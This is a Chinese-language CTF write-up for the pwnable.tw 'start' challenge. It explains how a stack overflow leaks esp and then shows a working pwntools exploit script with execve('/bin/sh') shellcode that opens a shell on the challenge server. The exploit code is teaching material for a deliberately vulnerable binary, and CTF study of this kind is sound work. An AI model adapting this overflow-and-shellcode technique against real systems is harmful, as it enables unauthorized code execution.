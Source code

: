 检查文件信息

![](image/1.png)
无任何保护，看反汇编 

![](image/2.png)

如若利用shellcode得到shell则需要考虑esp如何获取的问题，很明显这里大概率不存在jump esp这种指令，仔细观察会发现它有push esp 指令，再看0x8048087这行语句，
ecx也就是esp作为write&read参数输出且输入。我们先利用read函数进行溢出，ret到0x8048082这个地址，此时栈里的值是push esp ，它作为缓冲区给write当参数，在编写脚本的时候利用sh.recv(4)接收输出的四个字节，也就是esp的地址，要注意第二次溢出的时候要把接收到的esp地址+0x14，因为最后要add esp,0x14，最后注意编写脚本的时候send()与sendline()的区别，后者会发送一个/n(0x0a)

这是exp
```python
from pwn import *
import time

#context(arch='i386',os='linux')
#context(log_level='debug')

#sh = process('./start')
sh = remote('chall.pwnable.tw',10000)

#直到输入:
sh.recvuntil(':')
#gdb.attach(sh)
#sleep(15)

#第一次溢出点跳转点
jmp1 = 0x08048087
#第一次发送，获取esp地址
payload = flat([b'A'*20],jmp1)
#两种方式的payload
#payload =b'A'*20 + p32(jmp1)

#不要使用sendline()，会导致增加一个/n
sh.send(payload)

get_esp = u32(sh.recv(4))
print(get_esp)

#shellcode版本
shellcode = asm("""
xor ecx,ecx;
push ecx;
push 0x0068732f;
push 0x6e69622f;
mov ebx,esp;
mov eax,0xb;
xor edx,edx
int 0x80"""
)

#字符版本
test_shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x00'

payload = flat([b'B'*20,get_esp+20,shellcode])
sh.send(payload)

sh.interactive()

```